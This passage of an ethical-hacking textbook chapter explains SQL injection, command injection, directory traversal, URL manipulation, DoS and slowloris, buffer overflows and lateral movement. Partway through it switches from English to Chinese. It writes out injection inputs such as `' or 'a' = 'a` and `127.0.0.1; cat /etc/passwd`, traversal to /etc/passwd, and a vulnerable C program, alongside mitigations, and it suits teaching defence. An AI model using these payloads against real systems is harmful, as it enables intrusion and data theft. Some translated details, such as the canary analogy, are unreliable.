Because encoding is often required in normal operations to pass information from the server to the client, this opens the door to encoding attacks. Attackers can similarly encode information, which makes it harder to detect encoded attacks. This is, in part, because of the number of types of encoding that can be used, which means defense has to be aware of the different types of encoding so decoding can be performed before looking for the attack. This is one reason why website attacks are so common—the defense against these attacks is difficult.

## SQL Injection

Of course, cross‑site scripting is not the only place where URL encoding is used. Anywhere you want to obscure text, you can URL‑encode it. It makes it harder for regular users to know what is being done because they can’t easily convert the hexadecimal values back to their ASCII equivalents. Many of the other attacks can be obscured or made successful through the use of URL encoding, and SQL injection is one of them. SQL is the Structured Query Language, used to make programmatic requests of a relational database server. The server manages the storage, which will vary from one server type to another, but to get to the storage, either by inserting data or retrieving it, you would use the SQL programming language.

An SQL attack is an attack against the database server, ultimately, though it takes advantage of poor programming practices in the application code. As an injection attack, it happens when a malicious user sends in (injects) unexpected data through a web request. Sometimes, form data is passed directly into an SQL query from the application server to the database server to execute. If a fragment of legitimate SQL can be sent into a server where it is executed, the database could be altered or damaged. Also, data could be extracted or even have authentication bypassed.

Applications you are trying to attack with SQL injection must already have SQL in place to run a query necessary for the application to succeed. For example, perhaps you are browsing an electronic storefront and you are trying to find all *Doctor Who* action figures because you really want one of Jodie Whittaker, since you have all the others. You issue a search on the site for `jodie whittaker doll` in order to get the right results back. Behind the scenes, the application may have an SQL statement that reads as follows:

```
SELECT * FROM inventory_table WHERE description == '$searchstr';
```

What you have submitted (`jodie whittaker doll`) goes into the variable `$searchstr`. This means it’s not as simple as just issuing your own query and expecting that to run. Instead, you need to find a way to get your query to work in the context of the existing one. Figure 12.2 shows the results from a successful SQL injection attack using one of the potential techniques.


**FIGURE 12.2** SQL injection attack outcome

This particular attack was run against a web application named Damn Vulnerable Web App, which is a deliberately vulnerable web application that you can use to learn more about attacks, trying against different levels of security in the application. The string entered was `' or 'a' = 'a`. This uses the single quote to close out the existing query string and then introduces the Boolean logic term `or` along with a test that will return a true. This means the overall expression will return true. Every row in the database will evaluate to true. Since the query here likely starts with `SELECT *`, we get every row in the database back. You’ll notice that the query inserted leaves the last quote out. The reason for this is that the query in the application already has a single quote at the end. I introduced a single quote to terminate the evaluation in the program, but there is still a single quote hanging out there, so if I leave out the single quote, the one in place will replace it, leaving a valid SQL statement.

This may not always work, depending on the SQL query in place in the application. In some cases, you may need to replace the rest of the query in the application. This can be done using comment characters. If the SQL server that underpins the application is based on MySQL, including both MySQL and MariaDB, you can use the double dash (`--`) to indicate a comment that goes to the end of the line. Everything after your double dash is commented out. This can allow you to inject your own complete SQL statement and then just comment out everything else in the application. MySQL syntax also allows the use of the `#` character to indicate a comment. It functions just like the double dash. On an Oracle server or Microsoft SQL Server, the double dash also works.

Since SQL doesn’t always work the same from one server type to another, the question becomes how you can determine what the underlying database server is. You may be able to know based on the reconnaissance you did earlier. For example, a poorly configured Apache server may tell you what modules are loaded. You may be able to tell based on the results of an application version scan that there is a MySQL server. If you are testing against a Microsoft IIS installation, you could guess it may be Microsoft SQL Server. A more definitive way would be to introduce invalid SQL into the application. If the application is well programmed, you shouldn’t get anything back, but often you will get an error from the database server. Either you will get an error message that includes what the database server is or you will get an error message that allows you to determine the server type because of the wording of the error.

-   在图 12.2 的情形下，我们从查询中获取了输出。并非所有查询都会产生输出。这意味着你在飞盲，因为看不到查询的结果。在这种情况下，你正在发出盲目 SQL 注入攻击。由于可能在飞盲，你需要改变思路。你需要结构化查询，使得成功或失败是可见的，因为应用程序的工作方式如此。盲注入的目的在于观察页面是否根据提供的输入而表现不同。这可能让你在花费大量时间尝试运行这些攻击之前，就判断页面是否容易受到 SQL 注入攻击。

假设你有一个搜索框，如前所述。与其输入完整的 `jodie whittaker doll` 搜索字符串，你可以只输入 `jodie`。与此同时，你会尝试通过追加 `and 1 = 2` 来得到一个假的结果，因为 1 永远不等于 2，整个搜索应该返回假。一旦你查看该页面的结果，你可以再运行一个查询，该查询应该返回真。除了 `1 = 2`，你可以使用 `1 = 1`。如果你得到的查询 `1 = 1` 的结果与 `1 = 2` 不同，则页面可能容易受到 SQL 注入攻击。你可以作出这一假设，因为当提交不同的 SQL 时，应用程序的响应会有所不同。

缓解这些攻击的方法有几种。第一种是对用户输入进行过滤，就像你对其他攻击所做的那样。你可以查找特殊字符并将其去除。你可以查找看起来像 SQL 语句的内容并移除这些部分。这可能包括使用类似白名单的特性，即只允许列表中的文本。

另一种方法是使用参数化查询或存储过程。这些方法的效果相似，因为你无法在程序中操纵字符串。用户侧发送的值会作为参数传递给查询。因此，注释字符无法消除其余的查询字符串。此外，任何试图通过操纵引号插入 SQL 语句的行为都不会成功，因为作为参数的行为与直接将文本插入字符串值的行为不同。

## 命令注入

命令注入攻击的结果可能与 XML 外部实体注入攻击相似。这是另一种注入攻击，根据 OWASP Top 10。此类攻击的目标是操作系统。应用程序从用户那里获取一个值并将其传递给系统函数或评估函数。这些函数将参数传递给操作系统进行处理。这意味着，如果没有输入验证，你可以在输入字段中注入操作系统命令，而该命令将被操作系统执行。你可以在图 12.3 中看到命令注入攻击可能的结果示例。输入框期望一个 IP 地址或主机名。应用程序会将该 IP 地址作为参数运行 `ping` 命令。此演示使用 Damn Vulnerable Web Application (DVWA) 作为目标平台。


**FIGURE 12.3** Command‑line injection attack output

你可以通过使用命令分隔符来利用这一点。这意味着你需要了解支撑 Web 应用的操作系统。因为 Linux 与 Windows 的命令分隔符不同。在图 12.3 中所示的操作系统是 Linux，输入字符串为 `127.0.0.1; cat /etc/passwd`。分号 (`;`) 用于在 `ping 127.0.0.1` 完成后执行第二个命令 `cat /etc/passwd`。在 Windows 系统中，分号用于分隔参数，你需要使用 ampersand (`&`) 在命令处理器之间分隔命令。

在 Windows 与 Linux 两种系统中，你可以在命令之间使用布尔运算符来控制第二个命令的执行是否取决于第一个命令的成功。例如，`ping -c 5 127.0.0.1 && cat /etc/passwd` 表示只有 `ping` 成功时，`cat` 才会执行。如果你想反向控制，即只有第一个命令失败时执行第二个命令，可以使用类似 `dir \Windows | echo wubble` 的写法。如果 `dir` 命令因某种原因失败，则 `echo` 命令会被执行。

与其他 Web 应用攻击一样，缓解措施也有几种。正如以往一样，输入验证是正确答案。了解输入应该是什么样子。如果不符合预期，则拒绝输入并要求用户提供更干净的内容。在图 12.3 的情形中，IP 地址具有明确的结构。你可以将输入与该结构进行比对。如果输入不像 IP 地址，则拒绝所有输入。你也可以构建应用，使得用户输入永不直接传递给系统，哪怕是作为命令的一部分。

## 目录或文件遍历

目录或文件遍历是一种常见的攻击，正如 EC‑Council 之前指出的那样。这是一种试图突破 Web 服务器构建的“监狱”以访问文件系统的攻击。Web 服务器使用文件系统的一部分来提供文件。例如，请求 `www.webserver.com` 会被映射到 Web 服务器认为的根目录的某个子目录，如 Linux 系统中的 `/var/www/html`。该 URL 的请求会返回 `index.html` 的内容，假设该页面是根据 Web 服务器的配置设为默认首页。

这种配置意味着你无法直接请求 `http://www.webserver.com/etc/passwd` 并获取 `/etc` 目录下的 `passwd` 文件。对 Web 服务器而言，`/etc` 目录不存在，因为它的根目录是 `/var/www/html`。所有请求都相对于该顶级目录。不过，正如你可能已经知道的，命令行工具可以使用相对路径向上或向下 traversal。


假设你在命令行界面（即 `shell`）中工作，并且当前目录是 `/var/www/html`。你仍然可以通过引用父目录来到达文件系统的根目录。在 `/var/www/html` 中，我们可以使用 `../../../etc` 来到达 `/etc` 目录，因为 `../` 会将我们提升一个层级。下面的示例展示了利用此技巧访问 `/etc/passwd` 文件：

```
kilroy@yaz:/usr/share/modsecurity-crs/rules$ cd /var/www/html
kilroy@yaz:/var/www/html$ ls
index.nginx-debian.html
kilroy@yaz:/var/www/html$ sudo cat ../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

你可以在某些 Web 服务器上使用相同的技术，如果它们容易受到这种方法的影响。当然，这已经是一种多年的技术，所以大多数 Web 服务器都已经知道并不允许它。然而，Web 应用程序可以利用这一点在 Web 服务器防护之外进行攻击。如果一个 Web 应用包含读取磁盘文件的代码，尤其是如果这些文件随后通过浏览器界面呈现给用户，你就可以使用文件遍历攻击。针对这种攻击的常见做法是堆叠大量的 `../../` 组合。如果你提供不够多，你就达不到文件系统的顶层。如果你提供太多，它们会在某个时刻被忽略，因为你已经到达了树的顶端，根本无法再向上移动。

文件遍历攻击用于获取敏感信息，例如 `passwd` 文件（在类 Unix 操作系统中，`shadow` 文件包含密码哈希，可能更有用）。你可能还想获取其他类型的文件，具体取决于服务器上存放的内容。如果服务器上存放有用于该应用的用户名密码数据库，你可能会利用文件遍历攻击来获取该文件。虽然你可能无法在浏览器地址栏中使用这种攻击，但在 Web 应用内的字段中仍然可以使用。

### URL 操作

应用程序通常通过统一资源定位符（URL）传递参数或其他信息。篡改 URL 中提供给应用的信息可能导致绕过应用的控制流。在常见的网关接口（CGI）模型中，通过 URL 向应用传递参数包括 `?` 字符。例如，URL `www.bank.com/account.php?acctno=123456` 中的参数 `acctno` 是账户号码，值为 `123456`。如果 `account.php` 执行更复杂的操作（比如银行转账），篡改 URL 可能导致转账到攻击者的账户。

现代 Web 应用使用端点作为客户端与服务器之间通信的结构化 URL。端点是一个结构化的 URL，看起来像普通 URL，只是其中包含传递给应用的消息，会触发特定函数的调用。例如，你可能会看到 `www.bank.com/transfer`。URL 的最后部分 `transfer` 是端点，它指示接收应用调用 `transfer` 函数。该函数需要处理输入和输出，以及任何额外的通信，例如使用 XML 或 JSON 异步传递数据。调整 URL 中的端点可能会调用未公开的函数，或从服务器获取足够信息以了解还需要发送什么。

URL 操作也可用于强制浏览。强制浏览是使用字典中的页面或资源发送请求，以判断这些页面或资源是否存在。这可以是识别本应被隐藏的页面或资源的好方法。在某些情况下，你可能能够绕过访问控制，因为开发者的期望是只有通过需要身份验证的页面才能访问资源。

### Web 应用保护

在保护 Web 应用时，有几种常见的做法。最简便的是进行基本的输入验证。这意味着在应用程序要求时预先指定输入应该是什么样子。除非你知道输入应该是什么样子，否则几乎不可能知道它不应该是什么样子，从而排除所有看起来像那样的内容。单纯剥除或阻止特殊字符并不总是容易。一旦开始剥除特殊字符，就会出现许多无法正确渲染的名称，例如。还有其他限制，比如密码不能使用更广泛的符号集，导致字符集变小，使得密码更易于暴力破解。

即使你知道要查找的恶意模式，仍可能因误操作而“自砍脚”。常见的做法是使用正则表达式来识别恶意模式。正则表达式是一种模式匹配语言，最初用于 Unix shell 脚本，后来被移植到多种其他用途。编程语言也广泛使用正则表达式。事实上，一种变体叫作 `Perl-compatible regular expressions`（PCRE），起源于 Perl 语言，但已在其他环境中实现。

这里不是教正则表达式的最佳场所，因为它既复杂又紧凑。为了演示其复杂性，可以考虑类似 `^[0‑9a‑fA‑f]+$` 的表达式。该表达式表示从行首（`^`）开始，匹配任意数量的数字或字母 a‑f（大小写均可），并在行尾（`$`）结束。简言之，它用于匹配单独位于行上的十六进制值。该正则表达式只会在行上单独的十六进制字符串时匹配，其他情况均不匹配。

在如此复杂的语言中，出错或生成比必要更复杂的表达式并不罕见。当正则表达式用于保护 Web 应用代码时，可能会导致程序无限循环尝试解析给定的输入，这称为 `regex denial of service`（ReDoS）。如果编程不够好，Web 应用本身会成为问题。一种应对办法是使用已经经过充分测试的输入验证库。

即使采用良好的编程实践，仍有可能在某个时点发现其中的漏洞。这时，拥有防护措施或侦测能力就显得尤为重要。Web 应用防火墙（WAF）是一种工作在应用层的防火墙，它读取 HTTP 请求并将其与攻击模式进行匹配。与其他防火墙类似，你可以编写规则来记录流量或阻止请求。虽然有很多商业 WAF 可供选择，你也可以使用 `mod_security`，它是一种可加载到 Apache Web 服务器中的模块。许多 WAF 位于 Web 服务器前面，作为独立应用或设备，但 `mod_security` 本身即嵌入在 Web 服务器内部。下面是一个 `mod_security` 规则示例：

```
SecRule ARGS_NAMES|ARGS|XML:/* "@rx ((?:[~!@#\$%\^&\*\(\)\-\+=\{\}\[\]\|:;\"'\^'\`<>][^~!@#\$%\^&\*\(\)\-\+=\{\}\[\]\|:;\"'\^'\`<>]*?){2})" \
    "id:942432,\
    phase:2,\
    block,\
    capture,\
    t:none,t:urlDecodeUni,\
    msg:'Restricted SQL Character Anomaly Detection (args): # of special characters exceeded (2)',\
    logdata:'Matched Data: %{TX.1} found within %{MATCHED_VAR_NAME}: %{MATCHED_VAR}',\
    tag:'application-multi',\
    tag:'language-multi',\
    tag:'platform-multi',\
    tag:'attack-sqli',\
    tag:'OWASP_CRS',\
    tag:'OWASP_CRS/WEB_ATTACK/SQL_INJECTION',\
    tag:'WASCTC/WASC-19',\
    tag:'OWASP_TOP_10/A1',\
    tag:'OWASP_AppSensor/CIE1',\
    tag:'PCI/6.5.2',\
    tag:'paranoia-level/4',\
    ver:'OWASP_CRS/3.2.0',\
    severity:'WARNING',\
    setvar:'tx.anomaly_score_pl4=+%{tx.warning_anomaly_score}',\
    setvar:'tx.sql_injection_score=+%{tx.warning_anomaly_score}'"
```

大部分规则是关于提供可以在警报中提供的元数据。例如，此漏洞是 OWASP 顶级漏洞列表中的一项。你会在规则的标签之一中发现这一事实。规则的重要部分是第一行，指示要匹配的模式。这是一个正则表达式，指示 SQL 注入攻击可能的样子。`mod_security` 采用分阶段方式评估规则。第一阶段检查请求头。第二阶段，根据第三行，该规则属于此阶段，检查请求体。其他阶段检查响应头、响应体和日志。

与任何基于规则的安全技术一样，该技术提供的保护完全依赖于规则。如果规则编写不当，或针对特定攻击没有规则，那么攻击可以通过 WAF 进行。这并不意味着 WAF 是个坏主意。它的意思是需要已验证的规则，并且要关注现代攻击以引入新规则。此外，它也意味着应用程序需要以防御性方式编写，因为前面的技术可能不足以阻止攻击进入应用。

## 服务攻击（Denial‑of‑Service Attacks）

记住三元组：保密性、完整性和可用性。到目前为止，我们在讨论 Web 应用攻击时主要涉及的是完整性。这些攻击影响整个应用的完整性。如果攻击者通过某个攻击获得系统访问权限，我们就开始谈论保密性。在下面的章节中，我们将讨论可用性。拒绝服务的目的在于使应用无法提供服务，从而阻止合法用户使用它。由于用户经常通过 Web 应用与业务交互，他们常常成为拒绝服务攻击的目标。这也是由于攻击者通常位于企业外部，而 Web 服务器一般暴露在 Internet 上。

### 带宽攻击

带宽攻击用于生成大量流量，以耗尽服务使用的网络连接。今天的带宽攻击的一个问题在于，你的目标很可能拥有比你更大的带宽容量。这意味着单靠你几乎不可能生成足够的流量将站点 offline。你可以采取几种策略。第一种是直接围攻目标，即让所有朋友都参与并尽可能大量地发送数据到目标。如果你有足够多的朋友，可能就能生成足够的流量将服务 offline。

另一种更实际的方法，尤其是当你没有很多朋友时，是利用大量被 compromised 的系统。这可以通过使用能够向目标发送请求的僵尸网络（botnet）来实现。僵尸网络越大，你能生成的流量就越多。这假设你要么拥有僵尸网络，要么知道在哪里租用一个。并不是所有人都花时间去获取僵尸网络客户端，因此你需要采取另一种方法。

好在，还有一种方法可以用很少的投入换取很大的回报。放大攻击（Amplification attacks）长期以来都是可能的。最早用于放大攻击的协议是 ICMP。Smurf 攻击使用 ICMP echo request 发送到广播地址。如果你选择足够大的网络并发送足够大的请求，就可以得到巨大的大量响应。由于请求使用了伪造的源地址，响应全部会发送到目标。该攻击在 90 年代末至 2000 年代初达到高峰，当时向广播地址发送 ping 包可能会得到数万的响应，这些响应被称为 `duplicates`，因为在第一个响应后，每一次后续响应都被视为重复。如今这种攻击的影响不如从前大。Figure 12.4 展示了 2017 年之前仍然存在的最大的 Smurf 放大器，之后的 Smurf 放大器注册表停止检查。该页面除存档外已不存在。

```

```

FIGURE 12.4 Smurf amplifier registry

现在我们不再需要依赖 Smurf 攻击来进行放大攻击。另一个可以使用的协议是 DNS。这些攻击在近年来获得了一定的知名度。最著名的一次攻击是针对 Brian Krebs 的网站 Krebs on Security，该站点由调查记者 Krebs 运营，提供信息安全故事。流量峰值达到了 620 Gbps。

DNS 请求使用 UDP 作为传输协议，和 ICMP 一样，不验证源地址，这使得伪造源地址变得 trivial。攻击之所以可行是因为 DNS 请求体积小，而正确的 DNS 响应体积可以相当大。常见的 DNS 放大攻击比例为 70:1，即每发送 1 字节的请求，响应会返回 70 字节。该攻击需要一个 reflector，即一个开放于 Internet 的 DNS 服务器（resolver 而非 authoritative server），能够执行递归查询。理想情况下，你会使用多个 resolver 和多个发送者来获得最大流量。

当然，还有多种工具可以用于运行这些拒绝服务攻击。其中之一是 Low Orbit Ion Cannon（LOIC）。这是一个 .NET 程序，可在 Windows 系统以及装有 Mono 包的 Linux 系统上运行。你可以在 Figure 12.5 查看 LOIC 的界面。该程序可用于向 URL 和 IP 地址发送请求。你可以使用 LOIC 发送 TCP、UDP 或 HTTP 请求到目标。

```

```

FIGURE 12.5 Low Orbit Ion Cannon

如果有大量用户参与，这类攻击通常称为 `distributed denial of service`，因为涉及的系统通常分布在 Internet 各地。正是这种分散性使其成为分布式攻击。正如前面所指出的，随着企业带宽的增加，单一系统或站点很难生成足够的流量将站点 offline。因此，几乎所有带宽导向的现代拒绝服务攻击都是分布式拒绝服务攻击。这并不意味着所有拒绝服务攻击都是分布式的或带宽导向的。

在对这种攻击进行缓解时，选项并不多。如果你在自己的网络上托管自己的服务且成为拒绝服务攻击的目标，在被攻击时你能做的最好是联系你的互联网服务提供商（ISP）并希望他们在攻击到达你之前进行分流。到达你网络连接时已经太迟了；你的连接已被洪水淹没，这正是导致服务不可用的原因。你的防火墙或其他位于 premises 的设备对此无能为力。

另一种方法是使用负载均衡服务，如 Akamai 等公司提供的服务。请求先在它们的网络中到达，然后再分发到目标系统（无论它们位于何处）。由于 Akamai 拥有充足的网络带宽，通常能够承受大量请求。它能够管理流量，丢弃看起来有问题的请求。当然，像 Amazon Web Services、Microsoft Azure 或 Google Compute 等云提供商托管的服务也能够抵御拒绝服务攻击。

### 慢攻击

Volume attacks 不是唯一创建服务拒绝的方式。你不需要消耗带宽，甚至不必快速发送大量请求。还有一些本质上看起来正常的、本质上是慢速的攻击。这些慢速的 HTTP 攻击通常非常有效，而不需要投入很多努力。早期的拒绝服务攻击是 SYN flood，它会填满 web 服务器的连接缓冲区。该攻击不需要大量请求，且所需带宽很少。按照常规，这种攻击已经不再有效，但其概念仍然可行。使用 slowloris 攻击（取名自东南亚东南亚的慢 loris 灵长类动物），其目标是向 web 服务器发送不完整的请求。当请求被发送时，三次握手已完成，因此 SYN 缓冲区不参与。相反，web 服务器能够同时处理的请求数量是决定性因素。

Web 服务器可能会配置可以并发运行的线程数量。这可以防止 web 服务器消耗系统过多的资源。然而，一旦所有线程都已被使用完毕，系统将无法再接受新的连接。slowloris 攻击可针对 web 服务器，事实上在下面的代码片段中，你可以看到 `slowhttptest` 程序的运行，该程序可用于执行 slowloris 攻击。仅用 26 秒，该程序就导致默认 Apache 安装停止响应请求。这并不算什么惊人，因为默认的 Apache 安装在单台服务器上并未配置为能够接受大量请求。

`slowhttptest` 对 Apache 服务器的运行

```
 slowhttptest version 1.8.2

  - https://code.google.com/p/slowhttptest/ -

 test type:                        SLOW HEADERS

 number of connections:            50

 URL:                              http://192.168.86.44/

 verb:                             GET

 Content-Length header value:      4096

 follow up data max size:          68

 interval between follow up data:  10 seconds

 connections per seconds:          50

 probe connection timeout:         5 seconds

 test duration:                    240 seconds

 using proxy:                      no proxy

 Sat Jan  5 21:28:31 2019:

 slow HTTP test status on 25th second:

 initializing:        0

 pending:             0

 connected:           15

 error:               0

 closed:              35

 service available:   YES

 Sat Jan  5 21:28:32 2019:

 Test ended on 26th second

 Exit status: No open connections left
```


程序 `slowhttptest` 也可用于执行其他 HTTP 攻击，包括 R‑U‑Dead‑Yet，这是一种另一种慢请求攻击，它使用 HTTP 体而不是 HTTP 头部（与 slowloris 类似）。可以通过 `slowhttptest` 运行 Apache Killer 攻击。该程序会发送请求，请求重叠的字节范围。这会导致服务器因 Apache 程序中的 bug 而消耗内存。这是一种针对特定 Apache 版本的攻击，而其他攻击则与服务器配置有关，而非软件本身的 bug。最后，`slowhttptest` 支持慢读攻击。在慢读攻击中，程序向服务器请求一个大文件，然后以小段方式逐步读取该文件。攻击程序可以在读取之间等待很长时间，从而长时间保持连接打开，阻塞本可以被合法用户使用的连接。

### Legacy

曾经，拒绝服务攻击来源于对协议弱实现的利用，例如前文提到的 SYN flood。SYN flood 是指大量 SYN 报文填满系统的连接队列，导致无法处理合法的连接请求。这是因为操作系统的 TCP 实现不完善，半开连接占用系统资源的时间过长，系统在放弃等待其余连接之前会耗尽资源。

LAND 攻击（local area network denial）可导致系统崩溃。LAND 攻击将 TCP 段的源信息和目的信息设置为相同，使该段落在操作系统中进入无限循环，先被视为出站，再被视为入站，以此类推，从而锁定系统。

Fraggle 攻击类似于前文提到的 Smurf 攻击。Smurf 攻击会向广播地址发送伪造的 ICMP 报文。Fraggle 攻击则使用相同手法，但发送的是 UDP 报文。由于 UDP（如 ICMP）不验证源地址且为无连接的，它可以被伪造。攻击者向目标网络的广播地址发送 UDP 请求，并将目标地址设为源地址，从而产生所谓的 UDP 洪水（Fraggle attack）。

teardrop 攻击是指攻击者向目标发送碎片化的 IP 包，并使碎片之间出现重叠。在操作系统对碎片进行重新组装时，若出现重叠，系统无法处理，导致操作系统层面的拒绝服务。

这些攻击大体上已不再有效，因为大多数操作系统的网络栈实现已进行修复，能够防御此类异常。当前的网络栈比 20 年前更加稳健。但这并不意味着仍有设备易受这些攻击影响，尤其是资源受限的嵌入式系统。

### Application Exploitation

应用程序漏洞利用多年来相当常见。应用程序漏洞是指攻击者获得程序执行路径的控制权。这通常通过向应用程序发送无效输入并使其未进行验证而实现。这与 web 应用攻击章节中讨论的问题相同。当程序员未能确保获得预期的输入时，就会出现不良后果。这些攻击不仅因为程序内部的输入验证不足，还因为操作系统如何将程序放置在内存中。改变程序执行路径的常见手段，称为 *arbitrary code execution*，包括缓冲区溢出和堆基攻击。

#### Buffer Overflow

缓冲区溢出攻击利用称为 *栈* 的内存结构。栈是函数执行时存储数据的内存区域。每次函数调用时，会在栈上创建一个新的栈帧，包含局部变量的内容，同时也存储函数结束后需要返回的地址。在 Figure 12.6 中，你可以看到一个单独的栈帧示例。栈的特性是，一旦你把东西放在栈上，就只能在取走最上面的元素后才能访问其下面的内容。你始终是在栈顶部添加或从栈顶部移除项。


**FIGURE 12.6** Stack frame

缓冲区溢出之所以发生是因为局部变量。每个变量都在堆栈上分配空间。在某些情况下，数据会被复制到已分配的空间中，但如果被复制的数据（称为`buffer`）大于该缓冲区，则被复制的数据会覆盖堆栈中的其他内容，包括返回地址。图 12.7（Figure 12.7）展示了当向缓冲区传入过多数据时会发生什么情况。假设有一个名为`strName`的缓冲区，已分配 10 字节（字符），但函数正在复制 16 字节（字符）到该变量。10 字节（这里是 10 个`A`）填满了为该变量分配的 10 字节。剩余的 6 字节写入内存中的下一个地址空间。在这种情况下，下一个内存地址空间是返回地址。返回地址在函数调用时被填充，在函数完成时被检索。


**FIGURE 12.7** Buffer overflow

在此情况下，返回地址被`A`填充。实际上，字节为`0x41`，这是`A`的 ASCII 值的十六进制表示。程序将尝试跳转到的地址包含`0x414141414141`。这样的地址很可能超出程序执行的地址空间，这意味着程序会因**segmentation fault**（段错误）而失败。段错误发生在程序尝试跳转到其内存段之外的地址时。

缓冲区溢出的目的是注入一段代码（称为`shellcode`），攻击者希望该代码被执行。返回地址保存的位置需要指向`shellcode`所在的内存空间。这意味着该位置的代码（汇编语言，因为这是处理器理解的语言）将被执行。攻击者可能会创建一个系统 shell 的调用，以便返回给他们。

保护此类攻击的一种方法是防止栈上的内容被执行。由于程序的代码位于不同的内存段中，栈不应包含可执行的代码。虽然存在这种限制，但也有规避方法。其中一种称为**return to libc**。标准 C 库包含 C 语言中所有标准函数，通常以共享库形式存储，供所有使用 C 语言并编译为共享库的程序使用。该库可能存储在已知的内存位置，因此攻击者可以将返回地址覆盖为标准 C 库中的函数地址，这些函数可以被攻击者利用。即使库的位置未知，也可以通过探测确定它，因为可以让 C 函数输出内存位置。

一种保护方式是**地址空间布局随机化（ASLR）**。攻击者之所以能成功，是因为每次程序运行时，其内存地址都相同，因此栈始终处于相同位置。这些地址编译进程序中，操作系统让程序相信它每次运行时都在相同的内存位置。实际上，每次运行时物理地址不同，但由于虚拟内存，程序认为的地址与实际地址可能有很大差异，因为操作系统负责处理这种转换。

支持 ASLR 的操作系统会在程序运行时重定位程序，这意味着程序必须支持相对而非绝对地址。每次程序运行时，它会被分配到不同的地址空间，即程序被告知它位于内存的不同部分。这使得攻击者的工作更加困难，但并非不可能。

另一种保护方式是使用**栈 canary**。这个术语源自矿工在矿井中使用笼中鸡的做法。由于矿井可能存在致命气体，矿工会将笼中鸡带入矿井，因为鸡比人更敏感，如果鸡死亡，矿工知道有毒气体，即使人闻不到也会在停留时被致命。栈 canary 在这里扮演相同的角色。它是放在返回地址之前的栈上的一个值。在使用返回地址之前，会检查栈 canary 的值是否被修改。如果被修改，则假设返回地址已被修改，因此不使用，程序会失败而非被入侵。

### 堆喷洒（Heap Spraying）

栈用于在编译时已知的数据，即在程序源代码中声明的数据。程序执行时，这些数据可以在栈上构建。并非所有数据在编译时已知，有些数据在运行时才知道。需要为这些数据分配内存空间。由于栈空间是为程序启动前已知的数据分配的，因此需要为运行时创建和使用的数据分配内存。这就是内存中的数据结构——`heap`。程序运行时，内存会从堆中分配，数据存储在该分配中。当数据不再需要时，内存会被释放以便重新使用。

由于内存在运行时分配，因此没有保证会在什么时间分配什么内存，因为程序的运行需求会因程序行为而变化。此外，堆中不存储返回地址，因此无法通过堆来操控返回地址。这并不意味着在堆中无法进行利用。堆喷洒（heap spraying）是一种技术，但不能单独使用。

缓冲区溢出的一个问题是如何可靠地将`shellcode`注入内存并使返回地址可靠地指向它。栈空间可能有限，限制了`shellcode`的大小。堆可以在这方面提供帮助。堆喷洒技术利用堆来存储`shellcode`。堆通常位于已知的内存位置，且如果`shellcode`被分配在堆上，其位置可能可预测。

攻击者会在堆中尽可能多地存储`shellcode`，然后利用缓冲区溢出将`shellcode`的地址写入返回地址中。程序随后会跳转到堆并执行存储在那里的`shellcode`。浏览器是这类攻击的常见目标，因为浏览器需要动态分配内存，具体取决于请求的页面和页面内容，从而提供了大量可用的堆空间来存储`shellcode`。

### 应用保护与规避

如前所述，操作系统通过使用地址空间布局随机化（ASLR）来保护自身和运行的应用程序。ASLR 是一种技术，使得攻击者使用缓冲区溢出攻击变得困难。缓冲区溢出攻击成功的前提是攻击者能够控制指针，使操作系统执行攻击者提供的代码。这意味着攻击者需要知道其提供的代码在内存中的位置。如果地址每次运行都不同，则不可预测。一次程序运行可能得到一个地址，而后续运行会得到完全不同的地址。

一种绕过方法是使用一种称为“返回到 libc”的攻击技术。C 标准库由于许多程序仍然使用 C 语言编写，以及像 C++ 这样的衍生语言，它是一组在程序中非常常用的函数。例如，下面的程序完全由 C 标准库中的函数组成。其中，`printf` 用于输出信息，`scanf` 用于从用户处获取信息。

**Potentially Vulnerable Application Code**

```c
#include<stdio.h>

int main(int argc, char **argv) {

    char name[25];

    printf("What is your name? ");

    scanf("%s", name);

    printf("Hello, %s\n", name);

    return 0;

}
```


如果在每个要使用 C 标准库的程序中都加载 C 标准库会非常浪费内存。相反，为什么不使用已经加载到内存中的单一副本，让每个程序通过它所在的位置来引用它呢？这意味着 C 标准库可能在内存中固定的位置。程序在运行时会得到函数的正确地址，因此在运行时使用的是地址而不是函数名。如果属实，这些函数调用的地址可以被预测。这意味着攻击者不再需要提供代码。标准库中已有的函数（如 `execv`）可以被使用。`execv` 及其相关函数会向操作系统请求执行磁盘上可能存在的程序。一旦实现这一点，攻击者可能直接调用 shell，而不需要注入代码来调用该 shell。

另一种保护应用的方法是让栈不可执行。这意味着属于栈段的任何内存块会被操作系统标记，任何指向该段的地址都会失败，因为栈段不允许运行可执行代码。这同样是防止传统缓冲区溢出攻击的保护措施，因为攻击者插入 shellcode 的位置在栈上。

虽然这种方法以及布局随机化可以防止传统缓冲区溢出攻击，但“返回到 `libc`”攻击仍然可行，因为 `libc` 必须是可执行的，和程序的 `.text` 段一样，因为那里存放可执行代码。

## Lateral Movement

在现实世界中，进入系统并不是终点。随着更多组织掌握现代攻击空间，许多人谈论攻击生命周期，以便了解攻击者所在的阶段。该生命周期主要用于在攻击被检测后知道如何响应，同时也有助于规划和准备。一种方法使用以下阶段：

1. **Initial Reconnaissance.** 攻击者对目标进行侦察，以确定最佳的攻击方法以及目标上可能获得的价值。

2. **Initial Compromise.** 攻击者已在组织内部获得访问权限，无论是通过钓鱼攻击还是应用程序漏洞。他们已进入网络。

3. **Establish Foothold.** 攻击者在之前已经获得访问，但在此阶段会强化其位置。这可能包括安装手段，以便随时可以通过其他途径重新进入，而不再依赖最初的入口。也可能涉及建立命令与控制（C2）机制。

4. **Escalate Privileges.** 此阶段攻击者会开始窃取凭据，并尝试获得更高的权限。

5. **Internal Reconnaissance.** 攻击者获取内部环境的整体情况，识别可能被攻击的其他系统。

6. **Move Laterally.** 攻击者会在环境中妥协其他系统，以获取更多系统、凭据和数据。

7. **Maintain Presence.** 攻击者继续建立持久访问系统的手段。

8. **Complete Mission.** 攻击者窃取数据并将其从环境中取出。

步骤 4 到 7 构成一个循环，可根据需要重复。每当攻击者妥协一个系统，就会重新进行内部侦察，以识别其他可能被攻击的系统。每个被妥协的系统，可能需要再次提升权限。

在渗透测试或伦理黑客参与中，侧面移动的目的是让企业了解内部可能存在的漏洞。仅加强外部防护是不够的，因为可能出现“外壳坚硬、内部软弱”的情况。 compromise 不仅通过外部服务发生，有时更深层，例如在桌面上。

